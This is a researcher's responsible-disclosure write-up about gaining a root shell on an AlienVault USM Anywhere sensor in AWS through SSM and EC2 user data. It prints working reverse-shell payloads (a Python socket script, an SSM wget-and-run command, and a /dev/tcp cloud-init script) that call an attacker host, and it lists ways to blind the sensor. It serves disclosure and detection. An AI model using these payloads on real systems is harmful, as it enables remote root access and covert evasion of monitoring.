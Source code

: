 # Abstract

This page discloses 2 ways to get a root shell on an [USM Anywhere sensor](https://cybersecurity.att.com/products/usm-anywhere) deployed on AWS. The first way is done through [AWS SSM](https://docs.aws.amazon.com/systems-manager/latest/userguide/ssm-agent.html), and the second one through [AWS EC2 user data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html). The impact is to be able to modify the USM Anywhere sensor without any limitation and undetected, making further exploitation of an AWS environment silently. Findings were tested using a [free trial](https://cybersecurity.att.com/products/usm-anywhere/free-trial), with the latest available version of USM Anywhere sensor as of 2021-05-04: version 6.0.205.

Those findings were not categorized as vulnerabilities by AlienVault. AlienVault reminded that it is the customer responsibility to secure AlienVault sensor deployed in AWS by following [AWS best practices](https://docs.aws.amazon.com/systems-manager/latest/userguide/security-best-practices.html).

Those findings could be applicable while deploying USM Anywhere sensor in other cloud services.

# Discovery process

## SSM

When having to troubleshoot issues on AlienVault USM, a `sysadmin` user is provided on sensors. The customer can use SSH to connect to this `sysadmin` user and will land on a [limited shell](https://cybersecurity.att.com/documentation/usm-appliance/system-overview/unauthorized-modification.htm). That interface can be used to browse some logs with a pager that cannot execute commands, and traps signals such as `CTRL+Z` or `CTRL+C`. It has some `ping` and `dig` tools with validated input. This restricted interface provides access to `htop`, which reveals that the process `amazon-ssm-agent` is running.

![htop](./img/2021-05-04-root-alienvault-usm-sensor/htop.png)

From there it is easy to guess that AWS SSM can be used to run arbitrary commands. Since the sensor is probably deployed in a private VPC behind a NATgw, and not accessible from the outside, the best course of action is to leverage AWS SSM to start a reverse shell.

## EC2 user data

Sometimes the sensor can run out of storage. Most of the storage is mounted on `/data`, and when growing the EBS, then restarting the instance, the partition is grown: [cloud-init](https://cloudinit.readthedocs.io/en/latest/) is running on the instance. Cloud-init can also be used to [run a reverse shell](https://www.tenchisecurity.com/blog/ec2-user-data-for-fun-reverse-shell-and-privilege-escalation).

# Proof of Concept

## SSM

### Requirements

For this attack to succeed, the attacker needs to have AWS credentials to a user or a role that allows to:

- add policies to an IAM role
- run AWS SSM send-command

### Process
The process is to:

- add the necessary permissions on the USM Anywhere instance role

![ssm-permissions](./img/2021-05-04-root-alienvault-usm-sensor/ssm-permissions.png)

- wait a few minutes for the SSM agent to come online. This step is optional and requires extra permissions to describe instances information.

```
$ aws ssm describe-instance-information --output text --query "InstanceInformationList[*]"
3.0.529.0	USMA-Sensor	172.31.36.0	i-[instanceID]	False	1620139052.209	Online	Ubuntu	Linux	16.04	EC2Instance
```

- use SSM send-command to send reverse shell. For the reverse shell to work I used a python one, and distributed it from a python web server.

```
$ cat lol.py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("1.2.3.4",4445));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 ...
4.5.6.7 - - [04/May/2021 22:39:48] "GET /lol.py HTTP/1.1" 200 -

$ aws ssm send-command --instance-ids "i-[instanceID]" --document-name "AWS-RunShellScript" --parameters commands="wget -O /tmp/lol.py http://1.2.3.4:4444/lol.py ; sleep 10 ; python /tmp/lol.py &" --output text
COMMAND	e78df3b7-dbb6-4808-b418-8a3f15a7c933		0	0	AWS-RunShellScript	$DEFAULT	0	1620146387.434	50	0			1620139187.434		Pending	Pending	1	3600
CLOUDWATCHOUTPUTCONFIG		False
INSTANCEIDS i-[instanceID]
NOTIFICATIONCONFIG
COMMANDS	wget -O /tmp/lol.py http://1.2.3.4:4444/lol.py ; sleep 10 ; python /tmp/lol.py &
```

- get the reverse shell

```
$ nc -lvnp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 4.5.6.7 36150 received!
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ps fauxww | grep alienvault
avunima+  1619 75.9 75.8 15661756 12241920 ?   Sl   14:37   3:35 /usr/lib/jvm/jre8-hotspot/bin/java -Xms11026m -Xmx11026m -XX:+UseG1GC -XX:+AlwaysPreTouch -XX:MaxGCPauseMillis=2000 -XX:+ParallelRefProcEnabled -XX:+ExitOnOutOfMemoryError -XX:+UnlockExperimentalVMOptions -XX:G1NewSizePercent=40 -Djava.security.egd=file:/dev/./urandom -Dav.connectFile=/etc/alienvault/unimatrix/connect.json -Djava.io.tmpdir=/data/alienvault/unimatrix/tmp -Dvertx.cacheDirBase=/data/alienvault/unimatrix/tmp -Djava.net.preferIPv4Stack=true -cp /usr/share/alienvault/current/unimatrix/lib/core/*:/usr/share/alienvault/current/unimatrix/lib/* -DlogFile=/data/alienvault/log/unimatrix-console.log com.alienvault.atlas.unimatrix.UnimatrixSpringApp
root      3489  0.0  0.0  11280  1072 ?        S    14:42   0:00      \_ grep alienvault
```

## EC2 user data

### Requirements

For this attack to succeed, the attacker needs to have AWS credentials to a user or a role that allows to:

- modify user data
- stop and start an EC2 instance

### Process

The process to leverage AWS EC2 user data to get a root shell is a bit more noisy than the SSM way: we need to stop and start the sensor instance.

- stop USM instance
- change user data from the original json string to a reverse shell

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
/bin/bash -c "bash -i >& /dev/tcp/1.2.3.4/4444 0>&1"
--//
```

- start your netcat listener on the attacker controlled server, here `1.2.3.4`

```
$ nc -lvnp 4444
```

- start instance and get your root shell

```
$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 4.5.6.7 60152 received!
bash: cannot set terminal process group (1525): Inappropriate ioctl for device
bash: no job control in this shell
# id
uid=0(root) gid=0(root) groups=0(root)
```

# Impact

This root shell can be used by an attacker to cover its traces from USM Anywhere for further exploitation. For instance:

- change suricata conf to whitelist attacker IP, and restart suricata
- change .jar files to modify sensor plugins behavior, and restart unimatrix
- modify traffic gathered through syslog using iptables + socat + script to modify traffic on the fly
- etc

This root shell can also be used to reverse engineer Alienvault sensor functionalities, or download Alienvault rules updates from its repo using SSL mutual authentication to gather further knowledge about the sensor:

![rules](./img/2021-05-04-root-alienvault-usm-sensor/rules.png)

# Detection

Since both ways rely on AWS APIs, specific rules can be written to detect it from CloudTrail logs, watching for SSM commands and EC2 user-data changes.

# Responsible disclosure

- [2021-01-05] emailed security mailing list and created support case, asking for point of contact
- [2021-01-05] support case acknowledged and escalated, scheduling call
- [2021-01-12] scheduled call, presented finding details, detection and mitigation ideas
- [2021-02-01] escalated case to internal AlienVault ticket
- [2021-03-01] sent reminder to AlienVault about the findings
- [2021-03-25] sent reminder to AlienVault about the findings
- [2021-04-15] scheduled call with AlienVault, exposing findings details
- [2021-04-20] AlienVault answered classifiying this finding as not being a vulnerability

Published on the 2021-05-04 by Pierre Gaulon.
